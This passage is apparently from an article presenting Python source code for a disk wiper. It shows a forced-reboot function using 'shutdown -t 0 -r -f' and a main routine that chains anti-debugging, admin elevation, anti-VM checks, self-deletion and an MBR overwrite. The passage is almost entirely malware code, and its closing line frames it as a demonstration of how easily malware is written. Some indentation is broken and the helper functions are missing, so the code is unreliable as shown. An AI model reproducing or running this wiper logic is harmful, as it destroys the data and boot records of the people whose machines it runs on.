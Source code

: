 ```Python
def SysDown():
# win32api.InitiateSystemShutdown(computername="",message="",timeOut=0, 
 bForceclose=0, bRebootAfterShutdown=1)
    os.system("shutdown -t 0 -r -f ") # Work Just Fine
```


### Main function of the wiper​
```python
def main():
        global application_path
        if getattr(sys, 'frozen', False):
            """
            If the application is run as a bundle, the PyInstaller bootloader
            extends the sys module by a flag frozen=True and sets the app
            path into variable _MEIPASS'.
            """
            application_path = sys.executable
        else:
            application_path = os.path.dirname(os.path.abspath(__file__))
            AntiDebug()
            if not IsPyExist():
                    return InstallPy()
            if not IsAdmin():
                return RunAsAdmin()
                    if not IsOnline():
                        return CommitSuicide()
            if not AntiVm():
                pass
            SetFiles()
            OverWriteMBR()
if __name__ == "__main__":
    main()
    SysDown()
```

### END​
This was all for now, this article is just a way to show how easy to write a malicious code and even that's may not be the best language to write malware with it’s worth keeping your eyes wide open. 
